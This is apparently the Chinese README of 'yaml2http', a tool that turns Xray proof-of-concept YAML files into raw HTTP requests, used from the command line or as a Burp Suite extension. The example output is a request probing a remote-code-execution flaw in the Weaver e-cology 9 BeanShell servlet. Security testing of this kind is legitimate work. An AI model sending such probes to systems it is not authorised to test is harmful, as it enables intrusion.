



# yaml2http

一个将`Xray`的`Poc`转换成`http`请求明文的小工具，便于在`Burp Suite`一类的工具中使用。
与杜老师交流`Poc`存储问题而引出的产物，采用了一个简易版的基于`Xray`的`Poc`标准，它只支持描述`http`协议。目前功能尚不完善，还在开发中...

## Usage

当`Poc`的请求结构中包含不可打印字符时，推荐以插件形式载入`Poc`至`Burp Suite`中使用。

### CLI

运行

```bash
java -jar yaml2http-1.0.jar -p poc-yaml-ecology9-beanshell-rce.yaml
```

输出如下

```http
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36 Edg/104.0.1293.47
Connection: close
Host: localhost
Content-Length: 87

bsh.script=print%2842503*40455%29&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

### Burp Suite Extension

支持在`Burp Suite`中以插件形式进行使用，这种方式可以避免不可打印字符的问题。

使用方式，从`Extender`导入下载或编译的`jar`包



进入`Repeater`页面，鼠标右键打开菜单并选择`Extension -> Yaml Poc Loader -> Import`，并选择需要载入的文件



加载完成后如下，默认指定`localhost:80`作为目标。



## Todo

* [X] 完成`yaml`解析，读取已支持字段值
* [X] 完成变量定义外的`http`文本转换
* [X] 完成变量定义和表达式解析（已初步完成主体框架，后续补充方法功能即可）
* [ ] 完成`Content-Type`自识别（但`body`数据过短会引起判断失误，推荐`poc`中自行指定）
* [x] 完成变量定义字段其他方法的支持

